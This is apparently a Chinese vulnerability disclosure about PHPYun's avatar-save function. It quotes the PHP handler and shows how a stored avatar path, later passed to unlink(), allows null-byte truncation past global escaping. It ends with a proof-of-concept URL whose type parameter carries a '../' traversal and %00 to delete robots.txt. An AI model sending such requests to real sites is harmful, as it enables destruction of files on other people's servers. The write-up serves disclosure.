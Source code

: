 ```php
        $d['data']['urls'][0] ="../".$new_avatar_path;

        $d['status'] = 1;

        $d['statusText'] = iconv("gbk","utf-8",'上传成功!');

        $row = $this->obj->DB_select_once("friend_info","`uid`='".$this->uid."'");//查询出来自己的资料

        if($type=="small")

        {

            $this->obj->unlink_pic($row['pic']);

            $this->obj->update_once("friend_info",array("pic"=>"../".$new_avatar_path),array("uid"=>$this->uid));

            $state_content = "我刚更换了新头像。<br><img src=\"".$this->config['sy_weburl']."/".$new_avatar_path."\">";

            $this->addstate($state_content);

            $this->obj->member_log("更换了新头像");

        }else{

            $this->obj->unlink_pic($row['pic_big']);//删除图片

            $this->obj->update_once("friend_info",array("pic_big"=>"../".$new_avatar_path),array("uid"=>$this->uid));//这里把自己的图片入库

        }

        $msg = json_encode($d);

        echo $msg;

    } 
```

因为全局有转义, 所以$new_avatar_path 没办法截断

$this->obj->update_once("friend_info",array("pic_big"=>"../".$new_avatar_path),array("uid"=>$this->uid)) 但是这里有一个入库。

入库了 然后再把 $this->obj->unlink_pic($row['pic_big']);//删除图片

出库出来的删掉。 所以我们可以再次截断了。 所以这个截断也无视 GPC 啥的。

用 phpyun 的 demo **.**.**.**测试 首先注册一个会员 然后请求

www.**.**.**.**//friend/index.php?m=index&c=save_avatar&photoId=1.jpg&type=xxx/../../../robots.txt%00
